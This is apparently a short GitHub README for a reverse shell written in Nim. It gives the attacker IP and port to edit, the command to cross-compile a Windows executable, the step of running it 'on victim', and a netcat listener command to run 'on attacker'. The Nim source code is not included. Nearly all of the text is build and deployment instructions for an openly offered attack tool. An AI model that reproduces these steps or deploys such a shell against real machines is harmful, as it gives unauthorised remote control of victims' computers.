 # nim_reverse_shell

## A simple reverse shell with nim code.

# How to build and run?

### Change this code snippet
```shell
var ip = "10.0.0.183"
var port = 1337
```

### Building and running
```shell
Build the reverse shell:
nim c --d:mingw --cpu=amd64 reverse.nim
On victim:
./reverse.exe
On Attacker:
nc -vnlp 1337
```
